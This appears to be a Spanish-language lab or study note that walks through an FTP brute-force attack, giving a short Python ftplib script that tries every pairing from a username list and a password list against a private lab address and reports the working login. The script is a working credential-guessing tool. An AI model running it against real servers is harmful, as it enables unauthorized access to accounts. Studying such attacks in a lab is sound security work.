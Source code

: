 Para ello vamos a utilizar la librería ftplib y tener dos ficheros de textos donde uno contenga los posibles usuarios y otro las posibles contraseñas:
![[Pasted image 20221217090603.png]]
![[Pasted image 20221217090607.png]]
Y a continuación utilizamos este código donde se hará el ataque de fuerza bruta FTP utilizando estos dos ficheros de texto:
```python
import ftplib

def ataque(ip,usuario,password):
    ftp = ftplib.FTP(ip)
    try:
        ftp.login(usuario,password)
        ftp.quit()
        print('User: {}:{}'.format(usuario,password))
    except:
        print("Falló la autenticación")

ip = '10.10.0.0'
usuarios = open('usuarios.txt','r')
usuarios = usuarios.read().split('\n')
passwords = open('passwords.txt','r')
passwords = passwords.read().split('\n')

for u in usuarios:
    for p in passwords:
        ataque(ip,u,p)
```
Y si lanzamos el script vemos que nos encuentra un login correcto con el usuario y contraseña user:user:+
![[Pasted image 20221217090641.png]]
Y vemos que si probamos con user y user nos inicia la sesión:

![[Pasted image 20221217090651.png]]
O incluso se puede mejorar este código:
![[Pasted image 20221217090713.png]]
![[Pasted image 20221217090720.png]]

